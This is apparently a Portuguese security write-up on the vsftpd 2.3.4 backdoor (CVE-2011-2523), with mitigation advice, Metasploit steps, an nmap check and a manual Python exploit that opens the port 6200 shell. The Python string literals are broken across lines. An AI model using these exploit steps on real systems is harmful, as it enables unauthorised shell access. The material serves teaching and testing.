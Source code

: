 ###### Reação do desenvolvedor

- Chris Evans, criador do vsftpd, publicou um alerta explicando a situação e denunciou o comprometimento da integridade do servidor de distribuição:

###### Fontes Adicionais

- CVE detalhado: https://nvd.nist.gov/vuln/detail/CVE-2011-2523  
- Debian Security Tracker: https://security-tracker.debian.org/tracker/CVE-2011-2523  
- GitHub com script: https://github.com/nobodyatall648/CVE-2011-2523

###### Recomendacoes

- Atualizar o vsftpd para uma versao posterior
- Bloquear a porta 6200 caso detectada
- Substituir FTP por SFTP ou FTPS
- Monitorar logs de conexao na porta 21

---

##### Exploracao com Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP_DO_ALVO>
run
```
![image](https://github.com/user-attachments/assets/7b37d6f6-c203-4c2a-b415-519cbace4e92)

Facil assim como a vida deve ser...

**Referencia:**  
https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

---

###### Verificacao com Nmap

```bash
nmap --script ftp-vsftpd-backdoor -p 21 <IP_DO_ALVO>
```
![image](https://github.com/user-attachments/assets/2be7fb48-9b83-435a-8e95-742996d256d2)

**Referencia do script:**  
https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html

---

###### Exploit Manual (Python)

```python
from telnetlib import Telnet

host = "192.168.0.10"
tn = Telnet(host, 21)
tn.read_until(b"(vsFTPd 2.3.4)")
tn.write(b"USER test:)
")
tn.write(b"PASS test
")

shell = Telnet(host, 6200)
shell.interact()
```
